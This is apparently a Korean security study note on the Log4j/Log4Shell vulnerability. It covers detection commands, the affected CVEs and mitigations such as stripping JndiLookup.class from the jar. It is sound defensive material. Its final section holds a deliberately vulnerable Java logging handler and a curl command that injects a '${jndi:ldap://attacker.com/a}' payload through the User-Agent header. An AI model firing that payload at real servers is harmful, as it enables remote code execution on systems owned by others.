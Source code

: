
[로그에 대한 기본 지식](https://github.com/sungmin4036/infomation_security/blob/main/etc/log%EB%9E%80%3F.md)
[log4j 위협 대응](https://github.com/sungmin4036/infomation_security/blob/main/Recent_Issue/log4j%20%EC%9C%84%ED%98%91%20%EB%8C%80%EC%9D%91.md)
---

- log4j란?

: log4j의 기능은 웹 서비스 동작 과정에서 일어나는 모든 기록을 남겨 침해사고 발생 및 이상징후를 점검하기 위해 필수적으로 필요한 기능.  

무료로 제공되는 오픈소스 프로그램으로 Java 기반의 모든 어플리케이션에서 사용할 수 있습니다.

<br>

- log4j 주로 사용하는 서비스는? 
: 일반적인 웹 사이트, 쇼핑몰, 그룹웨어 등 JAva를 기반으로 한 JVM(Java Virtual Machine) 환경을 사용하는 모든 서비스에서 사용 가능

<br>

- log4j  사용하고 있는지 확인 하는 방법

```
linux

- dpkg -l | grep log4j
- find / -name 'log4j*'
```

```
windows

- window explorer의 검생 기능(log4j 검색)을 이용

```

```
Java Spring Framework Maven

log4j가 설치된 경로의 pom.xml 파일을 열어 "log4j-core"로 검색

```

![image](https://user-images.githubusercontent.com/62640332/159493244-9f2caebe-805e-43c8-84ad-9e99ca944501.png)

<br>

- log4j 1.X 버전 영향은?

: log4j 1.x 버전은 CVE-2021-44228, CVE-2021-45046 취약점에는 영향을 받지 않으나 CVE-2021-4104에 해당.

본 취약점은 `JMSAppender`를 사용하지 않는 경우 취약점의 영향은 없으나 , 1.x 버전은 이미 2015년 이후 업데이트가 종료되었으므로 보안 위협들에 노출될 가능성이 높습니다. 최신버전으로 업데이트 적용하기를 권고


<br>

- 버전에 따라 log4j 조치하는 방법 및 업데이트 불가능할 경우 대응 방법.

  - JAVA사용 버전에 따라 최신 LOG4j 버전으로 업데이트 수행

  - 즉시 업데이트가 어려운 경우 log4j 버전 따른 해결 방안 

```
zip : 압축하는 리눅스 명령어

-d : 특정경로의 class를 delete 한다. 

-q : 메세지 출력 제한 옵션이다. 
```

  - log4j-2.x 버전 ] CVE-2021-44228, CVE-2021-45046 : JndiLookup 클래스를 경로에서 제거
    
    - zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class

    - log4j-core JAR 파일 없이 log4j-api JAR파일만 사용하는 경우 취약점의 영향 받지 않음



  - log4j-1.2.x 버전] CVE-2021-4104 : JMSAppender 사용 확인 후 코드 수정 또는 삭제

    - zip -d log4j-1.2.12.jar org/apache/log4j/net/JMSAppender.class  

    - zip -d log4j-1.2.*.jar org/apache/log4j/net/JMSAppender.class (* 모든버전일괄)




<br>

- 보안 업데이트 안되있을시 발생할수 있는것

: 원격의 공격자가 이 취약점을 이요하여 악성코드 유포, 중요 데이터 탕취, 임의의 파일 다운로드 및 실행 가능.


---

![image](https://user-images.githubusercontent.com/62640332/160333695-05063e41-e79f-43ba-81c3-ef50c793ce60.png)





---


### ㅁ JNDI

: JNDI 는 Java Naming and Directory Interface의 약자로 클라이언트가 서버상의 데이터나 객체를 lookup 할 수 있는 Java API

찾고자 하는 객체에 접근 할 수 있는 단일의 인터페이스를 제공하며 이 API를 이용해서 객체를 lookup, querying 그리고 binding 할 수 있다.

예로 아래와 같은 소스코드가 실행이 가능하다 

```
DataSource ds = (DataSource) ctx.lookup("java:comp/env/jdbc/datasource");
assertNotNull(ds.getConnection());
```

![image](https://user-images.githubusercontent.com/62640332/160330119-327b75d5-d130-4ba2-8e00-6dd695e18650.png)

- Log4J 에서 JNDI 호출

특정 버전의 Log4J에서 JNDI를 포함한 쿼리를 호출하는 경우 내부적으로 객체를 lookup 하는 기능이 있었다.

특정 버전에서 Log4J 함수로 특정한 쿼리를 실행하면 JNDI를 실행한다. 그래서 단순한 로그만 출력해도 아래 그림처럼 시스템 내부의 특정 프로그램을 실행할 수 있게 된다.

아래 그림은 Log4J를 실행해서 원격 서버의 프로그램이 실행된 예다.

![image](https://user-images.githubusercontent.com/62640332/160330264-db894897-66c0-4101-be5b-cf2f948ac896.png)

그래도 출력하는 로그가 하드 코딩돼서 실행중에 바뀌지 않는다면 문제는 없다. 직접 로그 안에 JNDI를 심어두는 일은 거의 없을 거니까. 그런데 서버 프로그래밍을 하다 보면 사용자가 갖고 있는 정보나 URL의 파라미터를 출력하게 되는 경우도 종종 생긴다. 만약 해커가 로그를 출력하는 부분을 파악해 해당 api에 의도적으로 JNDI LDAP 정보를 심어 넣는다면 외부에서 코드를 실행할 수 있게 된다.

```
public class VulnerableLog4jExampleHandler implements HttpHandler { static Logger log = LogManager.getLogger(VulnerableLog4jExampleHandler.class.getName());
/*
* A simple HTTP endpoint that reads the request's User Agent and logs it back.
* This is basically pseudo-code to explain the vulnerability, and not a full example.
* @param he HTTP Request Object */ 

public void handle(HttpExchange he) throws IOException { String userAgent = he.getRequestHeader("user-agent");
// This line triggers the RCE by logging the attacker-controlled HTTP User Agent header.
// The attacker can set their User-Agent header to: ${jndi:ldap://attacker.com/a}

log.info("Request User Agent:{}", userAgent); ... } }
```

위의 코드를 보면 사용자의 user-agent 정보를 log.info 로 출력한다. 디버깅 용도로 이런 로그 한번 쯤은 찍어두게 했을 것이다. 그런데 만약 해커가 User-Agent를 이렇게 바꿨다고 해보자 

```
curl 127.0.0.1:8080 -H 'User-Agent: ${jndi:ldap://attacker.com/a}'
```
그러면 User-Agent를 출력하는 코드가 영락 없이 JNDI를 호출하는 코드가 실행되고 해커의 서버에선(attacker.com) 우리의 서버와 JNDI를 통해서 내부 라이브러리를 실행할 수 있게 된다.

[출처]
1. kisa log4j 보안 취약점 가이드
2. https://selfish-developer.com/entry/log4j-%EC%9D%B4%EC%8A%88-%EC%82%B4%ED%8E%B4%EB%B3%B4%EA%B8%B0
